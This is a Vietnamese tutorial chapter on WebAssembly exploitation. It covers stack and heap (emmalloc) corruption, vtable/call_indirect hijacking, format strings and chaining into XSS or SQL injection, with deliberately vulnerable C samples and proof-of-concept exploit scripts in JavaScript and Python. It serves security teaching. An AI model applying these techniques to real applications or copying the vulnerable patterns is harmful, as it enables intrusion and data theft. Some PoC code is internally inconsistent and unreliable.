


> **Prerequisites**: [[12-wasm-security-model|12. Wasm Security Model]] — CFI, linear memory layout, attack surface. [[08-memory-management|08. Memory Management]] — malloc/free, heap metadata, buffer overflow. [[13-reverse-engineering-static|13. Static RE]] và [[14-reverse-engineering-dynamic|14. Dynamic RE]] — biết reverse và patch Wasm.
> **Objectives**:
> - Hiểu đầy đủ các primitive khai thác trong Wasm: read, write, control flow
> - Nắm kỹ thuật heap metadata corruption với emmalloc/dlmalloc
> - Thực hiện Wasm-Oriented Programming (WOP) để hijack `call_indirect`
> - Hiểu stack-to-heap overflow và cross-region data corruption
> - Viết PoC exploit script Python/JavaScript cho Wasm targets
> - Biết các kỹ thuật chaining để escalate từ memory corruption sang XSS/RCE/data leak

---

## Concept — Exploitation Model của Wasm

Khai thác Wasm khác native: **mục tiêu không phải là RCE trên host machine** (sandbox ngăn điều đó) mà là **leo thang bên trong sandbox** để đạt mục tiêu có ý nghĩa:



> [!note] Tại sao Wasm exploitation vẫn nguy hiểm?
> Sandbox ngăn Wasm thoát ra ngoài process, nhưng trong nhiều ứng dụng:
> - Wasm xử lý user input và tạo output để render thành HTML → XSS
> - Wasm tạo SQL queries → SQLi qua heap corruption
> - Wasm handle authentication → bypass logic
> - Wasm chứa secret keys trong linear memory → data leak

---

## Primitive 1 — Stack-based Buffer Overflow

C/C++ code với `strcpy`/`memcpy` không kiểm tra size → overflow shadow call stack trong linear memory.

### Ví dụ vulnerable C code

```c
// vuln.c — compile với emcc
#include <string.h>
#include <stdio.h>

char admin_secret[32] = "FLAG{wasm_secret_1337}";
char input_buf[16];    // liền kề admin_secret trong stack

void process_input(const char* user_input) {
    strcpy(input_buf, user_input);   // BUG: không kiểm tra len
}

int is_admin = 0;

void check_admin() {
    if (is_admin) {
        printf("Admin access granted!\n");
    } else {
        printf("Access denied.\n");
    }
}
```

Trong linear memory layout (Emscripten):

```text
Địa chỉ thấp                                        Địa chỉ cao
┌─────────┬──────────────────┬────────────────────────┬──────────────┐
│ static  │   input_buf[16]  │   admin_secret[32]     │   is_admin   │
│ data    │  @ 0x400         │   @ 0x410              │  @ 0x430     │
└─────────┴──────────────────┴────────────────────────┴──────────────┘
          ↑ strcpy bắt đầu    ↑ bị overwrite nếu input > 16 bytes
```

### PoC Exploit — JavaScript

```javascript
const mod = await loadWasmModule('vuln.wasm');
const mem = new Uint8Array(mod.exports.memory.buffer);

// Địa chỉ input_buf và admin_secret từ static analysis
const INPUT_BUF = 0x400;
const ADMIN_SECRET = 0x410;
const IS_ADMIN = 0x430;

// Bước 1: Đọc admin_secret trực tiếp (nếu có read primitive)
const secret = new TextDecoder().decode(mem.slice(ADMIN_SECRET, ADMIN_SECRET + 22));
console.log('[*] admin_secret:', secret);  // FLAG{wasm_secret_1337}

// Bước 2: Overflow is_admin flag
const payload = new Uint8Array(17 + 32 + 4);  // fill input + secret + set is_admin=1
payload.fill(0x41, 0, 16);    // 'A' * 16 — fill input_buf
payload.fill(0x42, 16, 48);   // 'B' * 32 — fill admin_secret
payload[48] = 1;              // overwrite is_admin = 1

// Ghi payload vào input_buf
mem.set(payload.slice(0, 17), INPUT_BUF);  // 17 bytes overflow 1 byte vào admin_secret region

// Process input
const strPtr = INPUT_BUF;
mod.exports.process_input(strPtr);  // overflow

// Kiểm tra is_admin
console.log('[*] is_admin value:', new DataView(mod.exports.memory.buffer).getInt32(IS_ADMIN, true));
mod.exports.check_admin();  // "Admin access granted!"
```

---

## Primitive 2 — Heap Metadata Corruption (emmalloc)

emmalloc là allocator nhỏ của Emscripten. Nó lưu metadata liền kề với data:

```text
Heap layout sau 3 allocation:
┌───────────────────────────────────────────────────────────────────┐
│  [hdr1][     alloc1_data     ][hdr2][   alloc2_data    ][hdr3]... │
└───────────────────────────────────────────────────────────────────┘
   ↑                              ↑
   4 bytes header                 4 bytes header
   bit 0 = used flag              có thể bị corrupt nếu alloc1 overflow
   bits 1-31 = block size
```

### Kỹ thuật: Fake FreeInfo → Arbitrary Write

Từ USENIX Security 2020 ("Everything Old is New Again"):

**Bước 1**: Tìm overflow trong `alloc1` — có thể ghi vượt `alloc1_data` vào `hdr2` của `alloc2`.

**Bước 2**: Craft payload để:
- Clear `used` bit của `hdr2` → emmalloc nghĩ `alloc2` đang free
- Set `next_free` pointer trong fake FreeInfo của `alloc2` → trỏ đến target address

**Bước 3**: Khi `alloc1` được `free()`, emmalloc merge với "free" neighbor → `removeFromFreeList` writes attacker-controlled pointer.

**Bước 4**: Arbitrary write → overwrite function pointer in Table → WOP.

```python
def craft_heap_overflow_payload(
    alloc1_size: int,
    alloc2_addr: int,
    target_write_addr: int,
    write_value: int
) -> bytes:
    payload = bytearray()

    # Fill alloc1 với junk
    payload += b'A' * alloc1_size

    # Overflow vào hdr2: fake header cho alloc2
    # clear used bit (bit 0 = 0 → free), set block size
    fake_hdr2 = (alloc1_size << 1) | 0  # size=alloc1_size, used=0
    payload += fake_hdr2.to_bytes(4, 'little')

    # Fake FreeInfo struct (emmalloc internals):
    # struct FreeInfo { uint32_t size; uint32_t prev_free; uint32_t next_free; }
    payload += (0).to_bytes(4, 'little')              # prev_free = 0
    payload += target_write_addr.to_bytes(4, 'little') # next_free = target_write_addr

    return bytes(payload)
```

> [!warning] Tùy allocator — Emscripten có 2 options
> `-s MALLOC=emmalloc` (default nhỏ, ít mitigation) vs `-s MALLOC=dlmalloc` (lớn hơn, có safe unlinking checks). emmalloc dễ exploit hơn vì thiếu safe unlinking. Kiểm tra version bằng static analysis trước.

---

## Primitive 3 — Wasm-Oriented Programming (WOP)

Khi có **arbitrary write** primitive (từ overflow hoặc UAF), mục tiêu là redirect `call_indirect` sang hàm mong muốn.

### Điều kiện cần

1. **Write primitive**: Có thể ghi giá trị tùy ý vào vị trí trong linear memory
2. **Table index in linear memory**: `call_indirect` đọc function index từ linear memory (function pointer trong C)
3. **Compatible type**: Target function phải có cùng Wasm type signature với expected

### Quy trình WOP



### Ví dụ: Type confusion attack trong C++

```c
// vtable_confusion.cpp
#include <cstdio>

class Shape {
public:
    virtual void draw() { printf("Drawing shape\n"); }
    virtual void area() { printf("0\n"); }
};

class Circle : public Shape {
public:
    void draw() override { printf("Drawing circle\n"); }
    void area() override { printf("PI * r^2\n"); }
};

// Hàm attacker muốn gọi — cùng signature void()
void leak_data() {
    extern char secret_buf[];
    printf("SECRET: %s\n", secret_buf);
}

void process_shape(Shape* s) {
    s->draw();  // call_indirect qua vtable
}
```

Wasm type của tất cả `void()` methods đều là `(i32) -> void` (implicit `this` pointer). Nếu attacker ghi index của `leak_data` vào vtable slot của `draw`, `call_indirect` type check sẽ pass vì cùng signature.

### Exploit script — WOP via vtable overwrite

```python
import struct

def wop_exploit(wasm_memory: bytearray, vtable_addr: int, target_func_index: int) -> bytearray:
    """
    Overwrite vtable slot để redirect call_indirect.

    Args:
        wasm_memory: Nội dung linear memory (có thể đọc từ JS)
        vtable_addr: Địa chỉ vtable slot cần overwrite trong linear memory
        target_func_index: Index của target function trong Table

    Returns:
        Modified memory bytes
    """
    mem = bytearray(wasm_memory)
    # Overwrite vtable[0] (draw method slot) với target_func_index
    struct.pack_into('<I', mem, vtable_addr, target_func_index)
    return mem
```

```javascript
// JavaScript side
const mem = new Uint8Array(instance.exports.memory.buffer);
const vtableAddr = 0x2000;       // từ static analysis
const leakDataIndex = 42;        // index của leak_data trong Table

// Ghi index mới
new DataView(instance.exports.memory.buffer).setUint32(vtableAddr, leakDataIndex, true);

// Trigger vtable call → redirect sang leak_data
instance.exports.process_shape(shapePtr);
// Output: SECRET: W4sm_Vuln_S3cr3t!
```

---

## Primitive 4 — Format String Vulnerability trong Wasm

C `printf` với format string từ user input → arbitrary read/write trong linear memory:

```c
void log_message(const char* user_input) {
    printf(user_input);  // BUG: format string từ user
}

// Attacker gọi với: "%08x %08x %08x"
// → đọc 12 bytes từ stack/memory
```

Trong Wasm context, format string không thể đọc CPU registers (không có registers) nhưng đọc được **shadow call stack** và **heap** trong linear memory. Đây là **read primitive** để leak địa chỉ trước khi exploit.

---

## Chaining Attacks — Từ Memory Corruption đến Web Layer

Nghiên cứu từ USENIX 2020 và các paper 2024 chỉ ra cách chain Wasm bugs sang web-layer attacks:

### Chain 1: Stack overflow → XSS

```text
[1] Buffer overflow vào adjacent heap string
[2] String được dùng để render HTML template
[3] Attacker inject <script>alert(1)</script> vào string
[4] Template engine render HTML với XSS payload
→ XSS execution trong browser
```

```c
// Vulnerable pattern:
char image_url[64];        // tại 0x1000
char html_template[256];   // tại 0x1040 (liền kề)

// Nếu user input overflow image_url vào html_template...
snprintf(output_html, sizeof(output_html), html_template, ...);
// → attacker kiểm soát HTML structure
```

### Chain 2: Heap corruption → SQLi

```text
[1] emmalloc heap overflow corrupt adjacent string buffer
[2] String buffer chứa SQL query template
[3] Wasm module tạo query: "SELECT * FROM users WHERE id = " + corrupted_string
[4] Node.js host thực thi query với injected SQL
→ SQL injection
```

### Chain 3: Data leak qua timing (XS-Leaks)

```javascript
// Không cần memory corruption — timing attack via SharedArrayBuffer
const sharedMem = new WebAssembly.Memory({ initial: 1, shared: true });

// Thread 1 (attacker): measure thời gian
const start = performance.now();
atomics_wait_with_timeout(sharedMem, guessedSecretOffset, 0, 1);
const elapsed = performance.now() - start;

// Thời gian dài → secret tại offset đó = 0 (wait condition true)
// Thời gian ngắn → secret tại offset đó ≠ 0
// → leak từng bit của secret bằng timing
```

---

## PoC Framework — Template cho Wasm Exploitation

```python
"""
wasm_exploit_framework.py — Template PoC cho Wasm exploitation
"""

import struct
import json
from typing import Optional

class WasmExploitHelper:
    def __init__(self, memory_snapshot: bytes):
        self.mem = bytearray(memory_snapshot)

    def read_u32(self, addr: int) -> int:
        return struct.unpack_from('<I', self.mem, addr)[0]

    def write_u32(self, addr: int, value: int) -> None:
        struct.pack_into('<I', self.mem, addr, value)

    def read_str(self, addr: int, max_len: int = 256) -> str:
        end = addr
        while end < addr + max_len and self.mem[end] != 0:
            end += 1
        return self.mem[addr:end].decode('utf-8', errors='replace')

    def find_pattern(self, pattern: bytes) -> list:
        results = []
        idx = 0
        while True:
            idx = self.mem.find(pattern, idx)
            if idx == -1: break
            results.append(idx)
            idx += 1
        return results

    def overflow_into(self, buf_addr: int, buf_size: int, overflow_data: bytes) -> bytes:
        payload = b'A' * buf_size + overflow_data
        new_mem = bytearray(self.mem)
        new_mem[buf_addr:buf_addr + len(payload)] = payload
        return bytes(new_mem)

def exploit_step1_leak(helper: WasmExploitHelper, secret_addr: int, secret_len: int) -> str:
    """Bước 1: Leak secret từ memory."""
    return helper.read_str(secret_addr, secret_len)

def exploit_step2_wop(helper: WasmExploitHelper, vtable_addr: int, target_idx: int) -> bytes:
    """Bước 2: Redirect call_indirect qua vtable overwrite."""
    helper.write_u32(vtable_addr, target_idx)
    return bytes(helper.mem)

if __name__ == "__main__":
    # Mô phỏng — trong thực tế lấy memory snapshot từ JS hooks
    mem_snapshot = b'\x00' * 0x10000  # 64KB

    helper = WasmExploitHelper(mem_snapshot)

    # Inject fake secret để test
    secret = b"FLAG{wasm_exploit_demo}\x00"
    helper.mem[0x1000:0x1000+len(secret)] = secret

    print("[*] Leaked:", exploit_step1_leak(helper, 0x1000, 24))

    helper.write_u32(0x2000, 0)  # giả lập vtable
    patched = exploit_step2_wop(helper, 0x2000, 42)
    print("[*] WOP patch applied, vtable[0] =", struct.unpack_from('<I', patched, 0x2000)[0])
```

---

## Defense Bypass — Khi Target Có Mitigation

### Bypass emmalloc safe unlinking (nếu có)

emmalloc đôi khi có basic forward/backward pointer validation. Bypass bằng cách:
- Craft FreeInfo với prev và next trỏ vào nhau (circular) nếu check chỉ verify non-null
- Target `__indirect_function_table` nếu nó là global và writable

### Bypass type check với coarse CFI

```python
def find_compatible_functions(wat_content: str, target_signature: str) -> list:
    """
    Tìm tất cả functions có cùng Wasm type signature.
    target_signature: ví dụ "(i32) -> void"
    """
    import re
    # Parse type section từ wasm-objdump output
    func_pattern = re.compile(r'func\[(\d+)\].*?' + re.escape(target_signature))
    matches = func_pattern.findall(wat_content)
    return [int(m) for m in matches]
```

---

## Summary / Key Takeaways

- Wasm exploitation tập trung vào **trong sandbox** — mục tiêu là data leak, logic bypass, web-layer attacks (XSS/SQLi), không phải OS RCE.
- **Stack-based BOF**: Overflow shadow call stack trong linear memory → overwrite adjacent data, function pointers, flags.
- **Heap metadata corruption** (emmalloc): Overflow `alloc1` → corrupt `hdr2` → fake FreeInfo → arbitrary write khi `free()`.
- **WOP (Wasm-Oriented Programming)**: Write primitive → overwrite Table index in linear memory → redirect `call_indirect`. Coarse type check (chỉ 4 types) tạo large CFI equivalence classes — nhiều compatible targets.
- **Format string**: Read primitive để leak địa chỉ/data từ linear memory.
- **Attack chains**: BOF → XSS (corrupt HTML template), Heap corruption → SQLi (corrupt query buffer), Timing → XS-Leak.
- Không có ASLR trong Wasm → địa chỉ predictable → easier exploitation.
- Rust code an toàn hơn nhiều; C/C++ code trong Wasm có đầy đủ attack surface của native C/C++ — chỉ "relocated" vào sandbox.

---

## References

- "Everything Old is New Again: Binary Security of WebAssembly" (USENIX 2020) — https://www.usenix.org/system/files/sec20-lehmann.pdf
- "Memory Corruption in WebAssembly" — InstaTunnel — https://medium.com/@instatunnel/memory-corruption-in-webassembly-native-exploits-in-your-browser
- "Hijacking Control Flow in WebAssembly" — Fastly — https://www.fastly.com/blog/hijacking-control-flow-webassembly
- "Wemby's Web: Hunting for Memory Corruption in WebAssembly" — https://www.ias.cs.tu-bs.de/publications/wemby.pdf
- emmalloc source — https://github.com/emscripten-core/emscripten/blob/main/system/lib/emmalloc.c.in
- [[16-ctf-walkthrough|16. CTF Walkthrough]] — áp dụng các kỹ thuật trên vào CTF thực tế
